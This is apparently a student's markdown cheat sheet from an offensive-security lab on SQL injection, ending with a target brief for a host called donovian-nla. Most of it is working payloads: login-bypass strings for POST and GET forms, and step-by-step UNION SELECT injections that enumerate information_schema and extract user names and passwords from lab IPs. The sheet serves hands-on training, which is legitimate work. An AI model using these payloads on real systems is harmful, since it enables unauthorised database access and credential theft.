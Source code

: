     https://sqlbolt.com
_________________________________________________________________________________________________________________
## Post method: In the username and password fields use single quote to create or statement to validate true. 
    ' or 1='1
_________________________________________________________________________________________________________________
## Get method: In the Inspector (right click) open the network tab use post method and run it, select the post method below and in the new pane select request tab and switch to raw. Copy that and paste to the URL and add a ? at the beginning.
    http://10.50.33.78/login.php?username='+or+1%3D'1&passwd='+or+1%3D'1
    http://10.50.33.78/login.php?username=%27+or+1%3D%271&passwd=%27+or+1%3D%271
_________________________________________________________________________________________________________________
# Golden Statement: 
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

-----------------------------------[column],[column],[column]----------------------[database],[table]------------
    
    mysql
    show databases ;
    use information_schema ;
    show tables from information_schema ;
    show columns from columns ;
    
    SELECT table_schema FROM information_schema.columns ;
    SELECT table_name FROM information_schema.columns ;
    SELECT column_name FROM information_schema.columns ;
    
    SELECT table_schema,table_name,column_name FROM information_schema.columns ;
    
    ##Examples:
    SELECT x,x,x FROM session.xxx
    SELECT name,cost,year FROM session.car ;
    SELECT id,name,pass FROM session.user ;    
_________________________________________________________________________________________________________________
## SQL Injection: Post Method
### 1-Identify Vulnerable Field.
#### The one that doesn't error out.
    Ford ' or 1='1
    Dodge ' or 1='1
    Honda ' or 1='1
    Audi ' or 1='1

### 2-Identify number of columns.
#### So you can find which fields need placeholders.
    Audi ' UNION SELECT 1,2,3,4 #
    Audi ' UNION SELECT 1,2,3,4,5 #
    
### 3-Modify Goldent Statement to include all information.
#### UNION SELECT table_schema,table_name,column_name FROM information_schema.columns (below is altered to match out of order fields!!!!!!!!!!!!!!!!!!!!!!!!!!)
    Audi ' UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns #

### 4-Craft the queries.
#### Pulling custom user created data from the database.
    Audi ' UNION SELECT tireid,2,name,size,cost FROM session.Tires #
    Audi ' UNION SELECT cost,2,size,name,5 FROM session.Tires #
_________________________________________________________________________________________________________________
## SQL Injection: Get Method (URL bar)
### 1-Identify Vulnerable Field.
#### Make selection, pass a true statement. OR 1=1
    10.50.33.78/uniondemo.php?Selection=1 OR 1=1
    10.50.33.78/uniondemo.php?Selection=2 OR 1=1
    10.50.33.78/uniondemo.php?Selection=3 OR 1=1
    10.50.33.78/uniondemo.php?Selection=4 OR 1=1
    10.50.33.78/uniondemo.php?Selection=5 OR 1=1

### 2-Identify number of columns.
#### Display table is out of order. 1,3,2
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT 1,2,3

### 3-Golden Statement from before.
#### Alter the options in the middle to match the table thats out of order.
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns
    
### 4-Modify the Goldent Statement.
#### Now able to alter options to pull back specific data.
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT id,pass,name FROM session.user
_________________________________________________________________________________________________________________
## Scheme of Maneuver:
### >Jump Box
### ->T1:10.100.28.48

## Target Section:

### T1
#### Hostname: donovian-nla
#### IP: 10.100.28.48
#### OS: unknown
#### Creds:unknown
#### Last Known SSH Port: unknown
#### Last Known HTTP Port: 80
#### PSP: Unknown
#### Malware: Unknown
#### Action: Conduct approved SQLi Exploitation techniques to collect intelligence.
_________________________________________________________________________________________________________________
